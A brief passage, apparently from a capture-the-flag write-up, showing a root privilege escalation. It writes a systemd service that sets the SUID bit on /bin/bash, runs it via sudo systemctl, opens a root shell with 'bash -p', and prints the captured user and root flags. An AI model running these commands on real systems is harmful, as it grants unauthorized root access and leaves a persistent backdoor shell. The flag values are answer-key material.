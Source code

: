 - We can create a service in which we can execute to give us root access
```bash
echo -e "[Service]\nType=oneshot\nExecStart=chmod u+s /bin/bash\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/1up.service

sudo systemctl restart 1up

/bin/bash -p
```


```bash
bash-5.1# cat user.txt

51ff2ee7efd2ef60496bd3575e130d92

bash-5.1# cat /root/root.txt

8cf91fd4df10b57efe622e901ca2afc1
```

#hacking
